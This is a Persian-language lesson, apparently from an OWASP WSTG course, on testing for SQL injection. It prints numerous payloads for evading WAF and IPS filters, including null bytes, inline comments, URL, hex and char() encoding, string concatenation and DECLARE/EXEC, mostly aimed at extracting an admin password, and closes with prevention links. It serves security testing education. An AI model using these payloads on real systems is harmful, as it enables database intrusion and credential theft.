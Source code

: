 # بررسی SQL Injection

در این بخش از دوره آموزشی OWASP-WSTG به هفتمین بخش از استاندارد WSTG با شناسه WSTG-INPV-05 می پردازیم که مربوط به بررسی SQL Injection می باشد. لازم به ذکر است با توجه به طولانی بودن مبحث تزریق SQL، این بخش از استاندارد OWASP در چندین قسمت قرار داده می شود.

### بررسی Automated Exploitation

بسیاری از شرایط و تکنیک‌های ارائه‌شده در اینجا را می‌توان به صورت خودکار و با استفاده از برخی ابزارها انجام داد. یکی از ابزارهای کاربردی در حوزه بررسی و اکسپلویت آسیب پذیری SQL Injection، ابزار SQLMap می باشد. در مقاله زیر، اطلاعاتی در مورد نحوه انجام یک بررسی خودکار با استفاده از SQLMapبیان شده است.

https://wiki.owasp.org/index.php/Automated_Audit_using_SQLMap


### بررسی SQL Injection Signature Evasion Techniques

این تکنیک‌ها برای دور زدن سیستم‌های دفاعی مانند فایروال‌های نرم‌افزاری وب (WAF)‏ یا سیستم‌های پیش‌گیری از نفوذ (‏IPS) مورد استفاده قرار می‌گیرند که در ادامه به برخی از آن‌ها اشاره شده است. البته شما می‌توانید جهت مطالعه بیشتر به لینک زیر نیز مراجعه نمایید:

https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF

### روش Whitespace

یکی از روش های عبور از سیستم های امنیتی، کاهش فضا یا اضافه کردن فضاهایی است که بر دستورات SQL تاثیر نخواهند گذاشت.
```sql
or 'a'='a'
or 'a'  =  'a'
```
نمونه ای دیگر، اضافه کردن کاراکتر خاص مانند خط جدید یا tab است که اجرای دستورات SQL را تغییر نخواهد داد. برای مثال:


```sql
or
'a'=
        'a'
```


### روش Null Bytes

از Null Bytes (%00)‏ قبل از هر کاراکتری که برنامه (یا سیستم فیلترینگ برنامه) آن را مسدود می‌کند استفاده کنید.

برای مثال، اگر مهاجم قصد تزریق SQL زیر را تزریق داشته باشد:
```sql
' UNION SELECT password FROM Users WHERE username='admin'--
```
اضافه کردن Null Bytes در آن به صورت زیر خواهد بود:
```sql
%00' UNION SELECT password FROM Users WHERE username='admin'--
```
یا حتی به شکل زیر میتوان استفاده کرد:
```sql
' UN%00ION SE%00LE%00CT password FR%00OM U%00ser%00s W%00H%00E%00RE username='admin'%00-%00-
```
مورد بالا درصورتی استفاده میشود که WAF کلمات ورودی را پایش و عبارات دستوری SQL را درصورت مشاهده، حذف میکند.

### روش SQL Comments

اضافه کردن Inline Comment ها درSQL نیز می‌تواند به معتبر ماندن دستورات SQL و دور زدن فیلتر تزریق SQL کمک کند. این تزریق SQL زیر را به عنوان مثال در نظر بگیرید:
```sql
' UNION SELECT password FROM Users WHERE name='admin'--
```

اضافه کردن Inline Comment ها در آن به صورت زیر خواهد بود:
```sql
'/**/UNION/**/SELECT/**/password/**/FROM/**/Users/**/WHERE/**/name/**/LIKE/**/ 'admin'--
' /**/UNI/**/ON/**/SE/**/LECT/**/password/**/FROM/**/Users/**/WHE/**/RE/**/name/**/LIKE /**/ 'admin'--
```

### روش URL Encoding

روش دیگری که از آن می‌توان برای عبور از سیستم‌های امنیتی بهره برد، استفاده از کدگذاری URL برای کدگذاری دستورات SQL است.
```sql
' UNION SELECT password FROM Users WHERE name='admin'--
```
کدگذاری URL برای تزریق SQL به شکل زیر خواهد بود:
```sql
%27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--
```
### روش Character Encoding

از تابع char() می‌توان برای جایگزین کردن کاراکترها استفاده کرد. به عنوان مثال، char(114,111,111,116) به معنی root است.
```sql
' UNION SELECT password FROM Users WHERE name='root'--
```

پس از اعمال char() تزریق SQL به شکل زیر خواهد بود:
```sql
' UNION SELECT password FROM Users WHERE name=char(114,111,111,116)--
```
### روش String Concatenation

متد Concatenation یا الحاق، کلمات کلیدی SQL را شکسته (به دو یا چند قسمت تقسیم نموده) و می‌تواند منجر به عبور از مکانزیم های امنیتی شود. Syntax الحاق براساس پایگاه‌داده متفاوت خواهد بود. پایگاه‌داده MSSQL را به عنوان مثال در نظر بگیرید.
```sql
SELECT 1
```
عبارت SQL ساده را می توان به صورت زیر با استفاده از الحاق تغییر داد.
```sql
EXEC('SEL' + 'ECT 1')
```
### روش Hex Encoding

تکنیک کدگذاری Hex از کدگذاری Hexadecimal برای جایگزین کردن دستور SQL اصلی استفاده می‌کند. برای مثال عبارت root می‌تواند به صورت 726F6F74 نمایش داده شود.

```sql
Select user from users where name = 'root'
```

عبارت SQL با استفاده از مقدار HEX به صورت زیر خواهد بود:
```sql
Select user from users where name = 726F6F74
```
یا
```sql
Select user from users where name = unhex( '726F6F74')
```

### روش Declare Variables

روش دیگری که می توان از آن استفاده نمود، استفاده از Declare است. با استفاده Declare شما می توانید دستورات تزریق SQL خود را تعریف و اجرا نمایید.
برای مثال، عبارت تزریق SQL زیر را در نظر بگیرید:
```sql
UNION SELECT password
```

عبارت SQL خود را در متغیر SQLivar تعریف کنید:
```sql
; declare @SQLivar nvarchar(80); set @myvar N'UNI' + N'ON' + N' SELECT' + N'password'); EXEC(@SQLivar)
```


### متد Alternative Expression


```sql
OR 'SQLi' ='SQL'+'i'
OR 'SQLi' &gt; 'S'
or 20 &gt; 1
OR 2 between 3 and 1
OR 'SQLi' = N'SQLi'
1 and 1 1
1 || 1 = 1
1 && 1 = 1
```

### متد Replaced Keywords

در مواردی WAF با متد حذف کلمات کاربردی و دستوری در SQL از SQL Injection جلوگیری میکند،گاها این عمل را با دستوری مشابه دستور preg_replace انجام میدهند که با مثال زیر میتوان این امکان را دور زد و کوئری را تزریق کرد.
```sql
 UNunionION SEselectLECT 1,2,3--
```
بعد از اعمال تغییرات از طرف WAF،دستورات به شکل اجرا میشود:
```sql
 UNION SELECT 1,2,3--
```
برای اطلاع از سایر روش ها به لینک زیر مراجعه کنید:

https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF

### راهکار Remediation

برای ایمن کردن برنامه از آسیب‌پذیری‌های تزریقSQL، می‌توانید به CheatSheet پیش‌گیری از تزریق SQL مراجعه کنید:

* https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
* https://cheatsheetseries.owasp.org/cheatsheets/Database_Security_Cheat_Sheet.html
* https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
  
